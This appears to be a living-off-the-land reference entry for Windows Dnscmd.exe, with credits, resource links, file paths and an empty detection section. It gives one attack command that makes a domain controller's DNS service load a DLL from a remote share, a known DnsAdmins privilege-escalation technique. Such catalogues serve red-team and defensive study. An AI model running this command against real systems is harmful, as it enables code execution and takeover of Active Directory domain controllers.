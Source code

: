## Dnscmd.exe

* Functions: Execute

```
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```

Acknowledgements:
* Shay Ber - ?   
* Dimitrios Slamaris - @dim0x69    
* Nikhil SamratAshok Mittal - @nikhil_mitt   

Code sample:
* 

Resources:
* https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
* https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
* https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
* https://twitter.com/Hexacorn/status/994000792628719618
* http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

Full path:
```
c:\windows\system32\Dnscmd.exe
c:\windows\sysWOW64\Dnscmd.exe
```

Notes:
Used on Windows servers for DNS management


Detection:


 
